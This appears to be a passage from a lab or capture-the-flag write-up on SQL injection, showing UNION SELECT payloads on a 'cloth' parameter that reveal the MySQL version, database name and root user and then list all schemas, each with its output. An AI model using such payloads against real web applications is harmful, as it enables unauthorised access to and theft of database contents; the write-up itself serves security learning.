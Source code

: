 <figure><img src=".gitbook/assets/image (579).png" alt=""><figcaption></figcaption></figure>

After playing with it, we see there are 4 columns and columns "2,3,4" are strings columns.

```bash
cloth' UNION SELECT 1,@@version,database(),user()-- -

5.7.35-0ubuntu0.18.04.1, webapp, root@localhost
```

We can continue and dump all info on the DB.

#### DBs/Schemas

{% code overflow="wrap" %}
```sql
cloth' UNION SELECT 1,group_concat(schema_name),3,4 FROM information_schema.schemata-- -

information_schema,mysql,performance_schema,sys,webapp
```
{% endcode %}
